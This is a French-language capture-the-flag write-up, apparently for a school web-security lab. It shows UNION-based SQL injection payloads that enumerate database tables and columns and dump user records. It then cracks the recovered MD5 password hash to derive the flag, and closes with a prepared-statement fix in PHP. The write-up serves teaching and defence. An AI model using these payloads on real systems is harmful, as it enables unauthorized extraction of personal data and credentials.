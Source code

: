 # Vulnérabilité

Sur la page membres, cette injection SQL basique nous permet de lister les tables SQL exsitantes:

`1=1 UNION SELECT table_name, table_schema FROM information_schema.tables;`

On trouve alors une table nommée `users` avec un schéma `Member_Sql_Injection`.

Ensuite on peut lister les colonnes de toutes les tables avec cette injection SQL:

`1=1 UNION SELECT table_name, column_name FROM information_schema.columns;`

On identifie alors 8 colonnes: `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` et `countersign`.

Maintenant que nous avons toutes ces informations nous pouvons faire une requête SQL via injection pour récupérer toutes les informations que nous souhaitons sur la table.

`1=1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM Member_Sql_Injection.users;`

On retrouve le hash du mot de passe `5ff9d0165b4f92b14994e5c685cdce28` et en suivant les indications:

- On utlise https://md5decrypt.net/ pour décrypter le hash et on retrouve alors le mot de passe d'origine `FortyTwo`.
- Puis on le passe en miniscules pour obtenir `fortytwo`.
- Enfin on encrypte en SHA256 (https://md5decrypt.net/Sha256) et on obtient le flag.

# Solution

Pour se protéger de la faille, il faut utiliser des requêtes préparées.

__Exemple en PHP:__

```
// Avec PDO (https://www.php.net/manual/fr/pdo.prepare.php)

$stmt = $pdo->prepare('SELECT * FROM salaries WHERE prenom = :prenom');
$stmt->execute(array('prenom' => $prenom));

foreach ($stmt as $ligne) {
	// Traitement de la ligne de résultat
}
```